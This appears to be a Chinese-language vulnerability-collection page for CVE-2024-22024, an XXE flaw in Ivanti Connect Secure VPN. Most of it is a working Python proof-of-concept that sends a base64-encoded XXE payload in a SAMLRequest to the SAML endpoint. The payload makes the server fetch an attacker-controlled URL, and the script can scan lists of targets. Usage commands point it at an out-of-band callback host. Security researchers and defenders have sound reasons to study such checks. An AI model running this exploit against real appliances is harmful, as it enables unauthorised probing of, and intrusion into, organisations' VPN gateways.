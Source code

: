 # Ivanti Pulse Connect Secure VPN存在XXE漏洞(CVE-2024-22024)

Ivanti Pulse Connect Secure VPN存在XXE漏洞，攻击者可构造恶意请求触发XXE，结合相关功能造成远程代码执行。

## 影响范围

- ivanti connect_secure 22.4
- ivanti connect_secure 22.5
- ivanti connect_secure 9.1
- ivanti policy_secure 22.5
- ivanti zero_trust_access 22.6

## poc

```python
import base64
import requests
import argparse
from pathlib import Path
import urllib3
from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single InsecureRequestWarning from urllib3
urllib3.disable_warnings(InsecureRequestWarning)

'''
	PoC by Abdulla
	CVE-2024-22024 (XXE) for Ivanti Connect Secure and Ivanti Policy Secure
	Remediation:
	https://forums.ivanti.com/s/article/CVE-2024-22024-XXE-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure?language=en_US
'''

def send_request(target_url, attacker_url, timeout):
    xml_payload_template = """<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "{}"> %xxe;]><r></r>"""
    xml_payload = xml_payload_template.format(attacker_url + "/test")  # Format with the provided external URL
    encoded_payload = base64.b64encode(xml_payload.encode()).decode()  # Encode in base64
    data = {'SAMLRequest': encoded_payload}  # Data for POST request
    
    # Attempt the POST request with the specified timeout
    try:
        response = requests.post(target_url+"/dana-na/auth/saml-sso.cgi", data=data, verify=False, timeout=timeout)
        print(f"Response from {target_url}: {response.status_code}")
    except requests.exceptions.Timeout:
        print(f"Request to {target_url} timed out.")
    except Exception as e:
        print(f"Error sending request to {target_url}.")

def main(target_urls, attacker_url, timeout):
    if Path(target_urls).is_file():  # If target_urls is a file path
        with open(target_urls, 'r') as file:
            urls = file.read().splitlines()
            for url in urls:
                send_request(url, attacker_url, timeout)
    else:  # Assume target_urls is a single URL
        send_request(target_urls, attacker_url, timeout)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Check for CVE-2024-22024 vulnerability in Ivanti Connect Secure by Abdulla.")
    parser.add_argument("-u", "--target_url", required=True, help="The target URL or file with URLs where the SAML request should be sent")
    parser.add_argument("-c", "--attacker_url", required=True, help="The attacker URL to include in the XXE payload")
    parser.add_argument("-t", "--timeout", type=int, default=3, help="Timeout in seconds for the request (default is 3 seconds)")
    args = parser.parse_args()
    
    main(args.target_url, args.attacker_url, args.timeout)

```

### Parameters



- `-u` or `--target_url`: The target Ivanti Connect Secure (ICS) URL or file with list of URLs.
- `-c` or `--attacker_url`: The attacker URL (generate one using Burp Collaborator, ngrok, or by using a unique URL from [Webhook.site](https://webhook.site/))
- `-t` or `--timeout`: Timeout in seconds for the request (default is 3 seconds)

### How to use



Testing a single URL:

```
python .\cve_2024_22024.py -u http://vpn.example.com -c http://potatodynamicdns.oastify.com
```

Testing list of URLs:

```
python .\cve_2024_22024.py -u .\urls_list.txt -c http://potatodynamicdns.oastify.com
```

Using a different timeout (5 seconds):

```
python .\cve_2024_22024.py -u .\urls_list.txt -c http://potatodynamicdns.oastify.com -t 5
```



## 漏洞来源

- https://github.com/lal0ne/vulnerability/tree/main/Ivanti/CVE-2024-22024
